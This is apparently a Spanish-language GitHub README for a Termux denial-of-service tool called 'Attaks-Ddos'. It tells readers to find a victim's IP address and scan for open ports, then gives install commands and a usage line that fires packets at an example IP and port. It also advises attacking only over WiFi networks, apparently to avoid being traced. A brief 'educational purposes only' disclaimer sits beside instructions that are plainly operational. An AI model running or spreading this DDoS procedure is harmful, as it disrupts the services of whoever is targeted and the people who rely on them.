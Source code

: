 # Attaks-Ddos

Ataque de negación de servicio. Antes de usar esta herramienta primero debes de encontrar la dirección IP de la víctima y escanear dónde está abierto el puerto

# Nota

Esta herramienta es para sólo aprender los ataques DDOS recuerden que, ddos son sólo una pequeña parte y muy pequeño en el mundo de la piratería, así que no se sientan orgullosos si sólo pueden realizar ddos.

¡¡Recordar!! NO REALICE ATAQUES DOS/DDOS SIN USAR REDES WIFI!!!!

# 🦂 INTALACIÓN 🦂

$ pkg update && pkg upgrade -y

$ pkg install python2 -y

$ pkg install git -y

$ git clone https://github.com/Scorpio28-Oficial/Attaks-Ddos

$ ls

$ cd Attaks-Ddos

$ ls

$ python2 Attaks-Ddos.py <ip> <port> <packet>

__Ejemplo:__

python2 Attaks-Ddos.py 122.14.229.8 80 500

__Informatic in Termux__

https://t.me/Informatic_in_Termux

Esta herramienta es solo con fines educativos e informativos, el mal uso es responsabilidad de quien la utilize.

# EL CONOCIMIENTO ES LIBRE.

__By: Scorpio28__
